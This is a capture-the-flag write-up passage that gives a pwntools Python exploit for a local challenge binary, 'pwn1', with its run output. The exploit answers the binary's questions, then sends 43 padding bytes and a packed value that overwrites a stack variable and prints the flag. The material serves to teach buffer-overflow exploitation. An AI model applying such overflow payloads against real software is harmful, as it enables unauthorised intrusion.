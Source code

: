 ### Exploit

```python
from pwn import * 

target = process("./pwn1")

payload = b"A" * 43
payload += p32(0xdea110c8)
print(payload)


#gdb.attach(target, gdbscript='b *main')

print(target.recvuntil(b"see."))

target.sendline(b"Sir Lancelot of Camelot")

print(target.recvuntil(b"quest?"))

target.sendline(b"To seek the Holy Grail.")

print(target.recvuntil(b"secret?"))

target.sendline(payload)

target.interactive()
```

Running this script against the target we see the following:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/Variable$ python3 exploit_pwn1.py 
[+] Starting local process './pwn1': pid 14129
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde'
b'Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.'
b'\nWhat... is your name?\nWhat... is your quest?'
b'\nWhat... is my secret?'
[*] Switching to interactive mode

[*] Process './pwn1' stopped with exit code 0 (pid 14129)
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$  
```
